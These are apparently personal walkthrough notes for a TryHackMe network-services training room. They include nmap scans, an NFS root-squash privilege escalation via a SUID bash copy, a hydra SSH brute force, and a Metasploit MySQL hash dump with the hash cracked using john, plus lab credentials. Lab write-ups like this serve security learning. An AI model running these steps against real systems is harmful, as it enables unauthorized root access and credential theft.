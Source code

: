 # network services 1/2


[link to the room](https://tryhackme.com/room/networkservices)

`export ip=10.10.52.186`


# links
- https://medium.com/@gregIT/exploiting-simple-network-services-in-ctfs-ec8735be5eef
- https://attack.mitre.org/techniques/T1210/
- https://www.nextgov.com/cybersecurity/2019/10/nsa-warns-vulnerabilities-multiple-vpn-services/160456/

## Recon 

### nmap
command : `nmap -A -T4 -v -p- -oN recon/nmap.nfs $ip`
command: `nmap -A -T4 -v -p- -oN recon/nmap.smtp $ip`
command: `nmap -A -T4 -v -p- -oN recon/nmap.mysql $ip`


## TASK

### NFS
- list the NFS shares : `showmount -e $ip`
- mount the dir : `sudo mount -t nfs $ip:/home /tmp/mount`
- exploit root squash vers 2
```
# target machine
cp /bin/bash .

# attacker machine
chown root:root bash && chmod +s bash

# target machine 
./bash -p
```

### SMTP

- mail name: polosmtp.home
- MTA : Postfix
- username: administrator
- use hydra to brute force ssh : alejandro


### MySQL

- use mysql_hashdump in metasploit we found : carl:*EA031893AA21444B170FC2162A56978B8CEECE18
- crack the password: `john --format=raw-sha1 recon/hash.txt --wordlist=/home/th3m7j0/Personal/tools/wordlists/rockyou.txt` found doggie


